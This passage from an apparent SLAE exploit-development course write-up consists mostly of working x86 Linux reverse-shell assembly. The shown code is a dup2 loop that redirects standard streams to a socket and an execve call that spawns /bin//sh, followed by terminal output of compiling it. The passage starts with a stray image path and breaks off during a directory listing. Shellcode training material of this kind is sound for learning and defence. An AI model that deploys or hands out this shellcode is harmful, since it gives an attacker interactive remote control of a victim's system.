 ```




	; Start of dup2 looping call

	xor ecx, ecx
	mov cl, 3	; Setting the counter to 3 (3 file descriptors as seen in Assignment 1)
	

	call_dup:
	
	xor eax, eax
	mov al, 63	; syscall dup2()
	dec ecx		; loop counter


	int 0x80	; execute dup2 each time

	inc ecx		; loop counter
	loop call_dup	; Actually loop


	; Start of execve call
	xor eax, eax
	xor edx, edx	
	push eax	; Zero out top of stack
	push 0x68732f2f	; Push the end of "/bin//sh"
	push 0x6e69622f	; Push the beginning of "/bin//sh"

	mov ebx, esp	; Put the pointer of "/bin//sh" on the stack into ebx

	mov al, 11	; sycall execve()

	int 0x80
```


Executing reverse shell program
-------------------------------

Now that we have our code set up, we compile it using the `compile.sh` program provided by the SLAE course.


```sh
anubis@ubuntu:~/SLAE/Assignment_2$ ls -al
total 32
drwxrwxr-x  2 anubis anubis 4096 Feb 24 21:45 .
drwxrwxr-x 10 anubis anubis 4096 Feb 18 01:53 ..
-rwxrwxr-x  1 anubis anubis  152 Feb 23 22:47 compile.sh
-rw-rw-r--  1 anubis anubis  484 Feb 23 21:25 reverse.c
-rw-rw-r--  1 anubis anubis 1476 Feb 23 23:37 reverse_tcp.nasm
-rwxrwxr-x  1 anubis anubis 7396 Feb 24 21:30 test
-rw-rw-r--  1 anubis anubis  242 Feb 24 21:29 test.c
anubis@ubuntu:~/SLAE/Assignment_2$ ./compile.sh reverse_tcp
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
anubis@ubuntu:~/SLAE/Assignment_2$ ls -al
total 40
drwxrwxr-x  2 anubis anubis 4096 Feb 24 21:45 .
drwxrwxr-x 10 anubis anubis 4096 Feb 18 01:53 ..
-rwxrwxr-x  1 anubis anubis  152 Feb 23 22:47 compile.sh
-rw-rw-r--  1 anubis anubis  484 Feb 23 21:25 reverse.c
```